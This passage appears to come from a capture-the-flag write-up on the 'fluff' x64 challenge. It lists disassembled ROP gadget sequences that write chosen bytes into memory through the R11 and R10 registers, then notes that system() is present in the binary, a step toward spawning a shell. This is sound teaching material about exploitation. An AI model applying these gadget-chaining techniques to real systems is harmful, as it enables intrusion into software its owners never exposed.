 ```x64asm
    ret
StepFour:  
    xchg    r11, r10 ; the xchg operation performs an exchange between the R11 and R10 registers respectively
    pop     r15
    mov     r11d, 0x602050 ; 'P `'
    ret
```

##### 2. Load bytes, that we wish to write, into the R11 register
The previous sequence to write to R10, uses the R11 register to transfer bytes.  
Writing to R11 will follow the same sequence without StepFour:
```x64asm
StepOne:
    pop r12 ; load value on stack into R12
    pop r13
    pop r14
    pop r15
    ret
StepTwo:  
    xor r11, r11 ; zero out the R11 register
    pop r14
    mov edi, data_start
    ret
StepThree:  
    xor r11, r12 ; the xor operation will xor the contents of R12 into R11
    pop r12
    mov r13d, 0x604060 ; '`@`'
    ret
```

#### Locate the system() library function
In the executable, the system() library function is already present.

<a href="/assets/img/2020-02-19-Fluff-x64/system-lib-func.png"><img src="/assets/img/2020-02-19-Fluff-x64/system-lib-func.png"></a>
  